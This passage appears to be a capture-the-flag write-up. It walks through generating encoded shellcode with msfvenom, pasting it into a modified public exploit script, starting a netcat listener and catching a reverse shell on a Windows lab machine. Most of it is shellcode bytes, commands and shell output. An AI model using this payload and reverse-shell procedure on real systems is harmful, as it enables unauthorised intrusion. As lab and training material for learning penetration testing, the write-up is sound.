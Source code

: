 ```bash
c\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python                                                                                  
Found 1 compatible encoders                                                                                                                                                                  
Attempting to encode payload with 1 iterations of x86/unicode_mixed                                                                                                                          
x86/unicode_mixed succeeded with size 774 (iteration=0)                                                                                                                                      
x86/unicode_mixed chosen with final size 774                                                                                                                                                 
Payload size: 774 bytes                                                                                                                                                                      
Final size of python file: 3822 bytes                                                                                                                                                        
buf =  b""                                                                                                                                                                                   
buf += b"\x50\x50\x59\x41\x49\x41\x49\x41\x49\x41\x49\x41"                                                                                                                                   
buf += b"\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41"
buf += b"\x49\x41\x49\x41\x49\x41\x49\x41\x6a\x58\x41\x51"
buf += b"\x41\x44\x41\x5a\x41\x42\x41\x52\x41\x4c\x41\x59"
buf += b"\x41\x49\x41\x51\x41\x49\x41\x51\x41\x49\x41\x68"
buf += b"\x41\x41\x41\x5a\x31\x41\x49\x41\x49\x41\x4a\x31"
buf += b"\x31\x41\x49\x41\x49\x41\x42\x41\x42\x41\x42\x51"
buf += b"\x49\x31\x41\x49\x51\x49\x41\x49\x51\x49\x31\x31"
buf += b"\x31\x41\x49\x41\x4a\x51\x59\x41\x5a\x42\x41\x42"
buf += b"\x41\x42\x41\x42\x41\x42\x6b\x4d\x41\x47\x42\x39"
buf += b"\x75\x34\x4a\x42\x4b\x4c\x58\x68\x35\x32\x59\x70"
```
As expected, we get our payload. Now we delete the old payload, and paste in the new payload.

Change the IP address for the socket and verify the port matches our nmap scan, which it does. Then save it as something else. Again, don't save over the original.

Setup a netcat listener on our port, 4444 in our case:
```bash
nc -lvnp 4444
```
Chmod our script to make it executable:
```bash
chmod +x [filename].py
```

And execute:
```bash
python2 36025_mod.py
```
*** Quick note: This script was written in python2. If you run it in python3 (defualt in kali) you will get a syntax error!***

Aaaaaaaand, if everything went as planned, we should get a shell back:
```bash
tools nc -lvnp 4444
listening on [any] 4444 ...

connect to [10.10.14.60] from (UNKNOWN) [10.129.153.76] 49161
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>
C:\Windows\system32>
```
Bam!!! Foothold! We could probably get the user flag here:
```bash
c:\Windows\System32>dir c:\users\alfred\desktop
dir c:\users\alfred\desktop
 Volume in drive C has no label.
```